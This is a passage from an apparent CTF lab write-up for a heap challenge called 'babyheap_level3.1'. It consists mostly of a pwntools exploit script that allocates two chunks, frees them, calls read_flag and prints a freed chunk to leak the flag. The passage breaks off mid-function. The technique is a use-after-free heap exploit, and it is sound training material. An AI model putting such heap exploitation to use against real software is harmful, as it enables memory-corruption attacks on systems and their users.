 参见 [Level 3.0](#level-30)。

## Exploit

```python
#!/usr/bin/python3

from pwn import (
    ELF,
    context,
    gdb,
    log,
    process,
    remote,
)

context(log_level="debug", terminal="kitty")

FILE = "./babyheap_level3.1"
HOST, PORT = "localhost", 1337

gdbscript = """
c
"""


def launch(local=True, debug=False, aslr=False, argv=None, envp=None):
    if local:
        elf = ELF(FILE)
        context.binary = elf

        if debug:
            return gdb.debug(
                [elf.path] + (argv or []), gdbscript=gdbscript, aslr=aslr, env=envp
            )
        else:
            return process([elf.path] + (argv or []), env=envp)
    else:
        return remote(HOST, PORT)


def construct_payload():
    return [
        (b"malloc", b"0", b"911"),
        (b"malloc", b"1", b"911"),
        (b"free", b"0", None),
        (b"free", b"1", None),
        (b"read_flag", None, None),
        (b"puts", b"0", None),
    ]


def execute_cmd(target, cmd, arg1=None, arg2=None):
    target.sendlineafter(b": ", cmd)

    if arg1 is not None:
        target.sendlineafter(b": ", arg1)

    if arg2 is not None:
        target.sendlineafter(b": ", arg2)


def attack(target, payload):
    try:
```